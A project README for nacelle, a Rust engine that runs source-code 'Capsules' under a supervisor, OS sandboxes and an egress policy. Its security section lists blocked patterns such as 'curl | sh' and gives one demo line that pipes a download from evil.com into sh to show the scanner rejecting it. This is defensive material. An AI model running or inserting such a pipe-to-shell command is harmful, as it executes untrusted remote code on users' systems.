


<p align="center">
	
</p>

# nacelle

**Source runtime engine for Capsules** — a daemonless execution core that provides Supervisor, Socket Activation, and OS sandboxes.

[](../uarc/SPEC.md)
[](LICENSE)

## Overview

**nacelle** is a low-level engine for securely running Capsules (`capsule.toml` plus source/archive) locally. It focuses on Source execution (Python/Node/Ruby, etc.) and provides Supervisor, Socket Activation, and OS-native sandboxes.

The v2.0 architecture removes the central daemon and moves to a **self-contained execution model** where each process owns a Supervisor (Actor).

## Responsibility split between nacelle and capsule

- **capsule (meta runtime / CLI layer)**: abstraction over runtimes, dispatch, packaging, and high-level UX
- **nacelle (source engine layer)**: source-focused execution core (Supervisor / Socket Activation / Sandbox / JIT Provisioning)

This repository is the **nacelle** side (low-level implementation). The `nacelle` CLI is included for direct use, but the intended user entrypoint is the `capsule` CLI (meta layer).

## What is a Capsule

- Config: `capsule.toml`
- Artifacts: `.capsule` (signable archive) / self-extracting bundle (single executable)
- Execution: Source (Python/Node/Ruby, etc.) / Wasm / Docker (as needed)

## Key Features 

- **Self-Extracting Bundle**: create a single binary with zero external dependencies
- **JIT Provisioning**: fetch and cache runtimes (e.g., Python) on demand
- **Socket Activation**: parent process binds a port and passes the FD to the child
- **Supervisor (Actor)**: robust child supervision, signals, and cleanup
- **OS Sandbox**: Linux (Landlock) / macOS (Seatbelt) write-scope confinement

## Architecture (v2.0)

```
┌─────────────────────────────────────────────────────────┐
│                       capsule (meta)                    │
├─────────────────────────────────────────────────────────┤
│  High-level CLI / Orchestration / Packaging             │
│  ├─ capsule dev / pack / open                           │
│  └─ runtime selection + dispatch                        │
└─────────────────────────────────────────────────────────┘
											│ calls into
											▼
┌─────────────────────────────────────────────────────────┐
│                      nacelle (source)                   │
├─────────────────────────────────────────────────────────┤
│  CLI / Bundler (direct use is optional)                 │
│  ├─ nacelle dev / pack --bundle                         │
│  └─ (bundle execution path)                             │
├─────────────────────────────────────────────────────────┤
│  Execution Core                                         │
│  ├─ Socket Activation (FD passing)                      │
│  ├─ Supervisor (Actor)                                  │
│  └─ Sandbox (Landlock / Seatbelt)                       │
├─────────────────────────────────────────────────────────┤
│  Source Runtime                                         │
│  └─ Python/Node/Ruby/... + JIT Provisioning             │
└─────────────────────────────────────────────────────────┘
```

## Building

### Quick Start (macOS)

Fastest path to verify “bundle → run” locally.

```bash
# 1) Build CLI (release recommended)
cd cli
cargo build --release

# 2) Bundle a sample (single binary output)
cd ../samples/simple-todo
../../target/release/nacelle pack --bundle --manifest capsule.toml

# 3) Run the generated bundle
./nacelle-bundle
```

### Fast Dev Loop

For iteration, use `nacelle dev` without bundling.

```bash
cd samples/simple-todo
../../target/debug/nacelle dev --manifest capsule.toml
```

### Prerequisites

- Rust 1.82+ (2021 edition)
- (Optional) Cap'n Proto compiler (`capnp`)
- (macOS) Zig and MinGW-w64 for cross-compilation
- (Optional) CUDA toolkit for GPU support
- (Optional) LVM tools for storage management

### Standard Build

```bash
# Build nacelle CLI binary (recommended entrypoint)
cargo build -p nacelle-cli --bin nacelle

# Release build (current platform only)
cargo build -p nacelle-cli --release --bin nacelle

# Library-only build
cargo build -p nacelle
```

### Run Tests

```bash
cargo test
```

## Usage

### Run a Self-Extracting Bundle

When executed as a bundle, nacelle extracts the embedded runtime and starts the app with Supervisor and Sandbox.

```bash
./nacelle-bundle
```

### Configuration

v2.0 is bundle-first. Legacy engine configuration files and daemon operation are deprecated and being phased out.

## Security Model

nacelle implements a defense-in-depth architecture and aims for verifiable execution.

### L1 Source Policy (Source Code Scan)

Detects and blocks dangerous patterns:

| Pattern                        | Reason                          |
| ------------------------------ | ------------------------------- |
| `curl \| sh`, `wget \| bash`   | Remote code injection           |
| `eval`, `exec`                 | Dynamic code execution          |
| `base64 -d`, `base64 --decode` | Obfuscated payloads             |

```bash
# Example: a capsule with dangerous code is rejected
echo 'curl https://evil.com | sh' > malicious.sh
nacelle dev  # → L1 Policy Violation: Obfuscation detected
```

### L3 Pre-Execution Analysis

Static analysis of execution manifests to detect additional hazards.

### L4 Network Guard (Egress Policy)

Outbound network traffic is controlled by the egress policy registry:

- Issues an identity token (`UARC_IDENTITY_TOKEN`) per capsule
- Allows only the `egress_allow` rules specified in the manifest
- Blocks non-allowed outbound traffic via proxy

### Dev Mode Security

Sandbox relaxation in dev mode is governed by upper-layer policy (future `capsule`).
In this repo, `nacelle dev` runs best-effort for developer ergonomics.

```
effective_dev_mode = manifest.dev_mode AND policy.allow_insecure_dev_mode
```

| Manifest `dev_mode` | Policy `allow_insecure_dev_mode` | Result                         |
| ------------------- | -------------------------------- | ------------------------------ |
| `true`              | `true`                           | ✅ Sandbox relaxed             |
| `true`              | `false`                          | ❌ Sandbox enforced (warning) |
| `false`             | `true`                           | ❌ Sandbox enforced            |
| `false`             | `false`                          | ❌ Sandbox enforced            |

### Environment Variables

| Variable             | Default   | Description |
| -------------------- | --------- | ----------- |
| `NACELLE_PATH`        | (unset)   | Explicit nacelle engine path (for future `capsule` use) |
| `NACELLE_BINARY`      | (unset)   | nacelle binary to embed when running `pack --bundle` |
| `CAPSULE_ENGINE_URL`  | (optional) | Legacy engine URL (deprecated) |

## Verification (Production)

### CAS-based Verification

In production-like operation, source code is fetched and validated via CAS (mainly a `capsule` responsibility):

1. Add `source_digest` (SHA256) to the manifest
2. The meta runner fetches from CAS
3. Verifies digest, then runs L1 Source Policy scan
4. Execution is allowed only if all checks pass

## Runtime Selection

Selecting the runtime from `capsule.toml` is a meta-layer (`capsule`) responsibility. This repo’s `nacelle` primarily serves as the **Source execution backend**. (Wasm / OCI exist today but may be split into separate engines later.)

- **Wasm**: `runtime.type = "wasm"` → `WasmRuntime`
- **Source**: `runtime.type = "source"` → `SourceRuntime` or `DevRuntime`
- **OCI**: `runtime.type = "oci"` or `runtime.type = "docker"` → `YoukiRuntime` (Linux) or `DockerCliRuntime` (macOS)

### Legacy Compatibility

Native runtime manifests are automatically migrated to Source runtime:

```toml
# Legacy (auto-converted)
[runtime]
type = "native"
binary_path = "/usr/bin/my-app"

# Converts to:
[runtime]
type = "source"
language = "generic"
cmd = ["/usr/bin/my-app"]
```

## Development

### Project Structure

```
nacelle/
├── src/
│   ├── engine/         # Supervisor, Socket Activation
│   ├── runtime/        # L3: Wasm, Source, OCI runtimes
│   ├── resource/       # L2: Ingestion, Artifacts, Storage
│   ├── common/         # L1: Proto, Types, Contracts
│   ├── security/       # Path validation, Access control
│   ├── verification/   # Signature, VRAM scrubbing, Sandbox
│   └── observability/  # Metrics, Audit, Tracing
├── proto/              # gRPC protocol definitions
└── docs/               # Architecture & implementation docs
```

### Key Documents

- [docs/ENGINE_INTERFACE_CONTRACT.md](docs/ENGINE_INTERFACE_CONTRACT.md) - Process boundary contract (JSON over stdio) between capsule (meta) and nacelle (engine)
- [docs/DEV_DOCKER_COMPOSE_WITH_NACELLE.md](docs/DEV_DOCKER_COMPOSE_WITH_NACELLE.md) - Developer guide: run Compose-like multi-service apps with Supervisor Mode
- [UARC_SCOPE_REVIEW.md](UARC_SCOPE_REVIEW.md) - Scope analysis and compliance review
- [PHASE13_COMPLETION.md](PHASE13_COMPLETION.md) - Native runtime removal report
- [MIGRATION_SUMMARY.md](MIGRATION_SUMMARY.md) - Migration guide from legacy architecture
- [PROJECT_OVERVIEW.md](PROJECT_OVERVIEW.md) - High-level architecture overview

## UARC V1.1.0 Compliance

nacelle satisfies the following UARC requirements:

### ✅ Supported

- Wasm Runtime (wasmtime-based)
- Source Runtime (Python, Node.js, Ruby, Deno, etc.)
- OCI Runtime (Youki, Docker)
- CAS-based artifact verification
- SPIFFE ID network identity
- Path validation & egress policy
- Service discovery & registration
- Metrics & audit logging

### ❌ Explicitly Excluded (UARC V1 Non-Compliance)

- **Native Runtime**: Archived (security concerns) — use Source Runtime instead
- **Tailscale/Headscale VPN**: Archived — use SPIFFE ID for peer authentication
- **Traefik Routing**: Archived — coordinator responsibility, not engine scope

See [UARC SPEC.md](../uarc/SPEC.md) for detailed specification.

## License

FSL-1.1-ALv2 (Functional Source License 1.1, Apache License Version 2.0)

## Contributing

1. Read [UARC SPEC.md](../uarc/SPEC.md) to understand the architecture
2. Check [UARC_SCOPE_REVIEW.md](UARC_SCOPE_REVIEW.md) for scope guidelines
3. Follow Rust best practices and maintain UARC compliance
4. Add tests for new features
5. Update documentation

## Related Projects

- [ato-coordinator](../ato-coordinator/) - Cluster orchestration & routing
- [ato-desktop](../ato-desktop/) - Desktop UI for Capsule management
- [cli](./cli/) - Nacelle CLI (pack, etc.)
- [uarc](../uarc/) - Specification (kept for historical reasons; reference Capsule Spec)
